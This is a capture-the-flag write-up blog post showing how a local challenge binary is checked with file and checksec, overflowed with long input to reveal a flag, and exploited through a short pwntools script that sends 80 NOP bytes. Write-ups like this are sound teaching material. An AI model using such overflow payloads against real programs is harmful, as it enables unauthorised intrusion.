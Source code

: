 ```yaml
---
layout: post
author: pr0rat
title: "pwn - Buffer overflow"
date: 2023-05-20 15
time: 15:40:00 +0300
image: /assets/img/Posts/overflow.PNG
categories: [InterUniCTF, KCA, Easy]
tags: [pwn, reversing, overflow, binary, ghidra, pwntools, msf_modules]
---
```


> In this writeup, i will demostrate how to use basic tools to reverse a binary, determine the offset of the buffer using msf modules and automate the exploitation using pwntools.

## Lets get started

Download the binary to our local machine. You can get the a copy of the binary from [here](/assets/img/Posts/buffer-overflow/chall). First thing i do after i get a binary in my machine is checking the file description by running `file <binary>`. We see that it is a  64-bit architecture, dynamically linked and it is not stripped which means we can get to see the source code when we use `ghidra`. In this challenge we will not need it.

```bash
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ file chall 
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a485af73b0e8f94c6fa49af674e6aaaad3af1180, for GNU/Linux 3.2.0, not stripped
```

With that information we can move on and check the security set in the file using `checksec --file <binary>`

```bash
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ checksec --file chall 
[*] '/home/kali/hacks/kca/pwn/overflow/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

We see that there is no `stack canary` which means stack values have no security that could protect them from buffer overflow. NX - non-executable or non execute is enabled which means that we cannot execute our injected data in the memory. and finally `PIE (Position Independent Executable)` is enabled too. So this program will not be using a static virtual address hence it will be changing every time we run it. Read more on binary files security [here](https://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/)

## Fun part

make it executable `chmod +x <binary>`

```bash
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ chmod +x chall
```
Going on and executing it asks us to overflow the buffer. simple, right? trying  sending some several A's we get no result. Adding some more we get an error `Error opening file, talk to admin!`. Sweeeeeet
Which file is it trying to open? because it is a CTF it must be a flag file.

```bash
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ ./chall                 
Overflow to get the flag: aaaaaaaaaaa
                                                                                                                                                                       
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ ./chall
Overflow to get the flag: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Error opening file, talk to admin!                                                                                                                                                                       
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ 
```
Created a dummy in `flag.txt` file in the same directory. Ran it again with buffer and booooooooom we get the flag.

```bash
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ ./chall      
Overflow to get the flag: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
flag{1t_mU5t_b3_y0U}
```

### Conclusion
> The challenge never required any advanced knowlegde of binary exploitation or buffer overflow stuffs. It was just sending enough buffer to overflow it and just like that it gave you the flag.

## Bonus section
Well, let me write a python script using pwntools to automate the above explotation. It is not necessary but one can get a basic understanding of how to use pwntools. 

```python
from pwn import *

p = process("./chall")


#send any size of buffer. i mean it should be large enough
payload = b''
payload += b'\x90'*80

p.recvuntil("flag: ")
p.sendline(payload)
print(p.recv())

```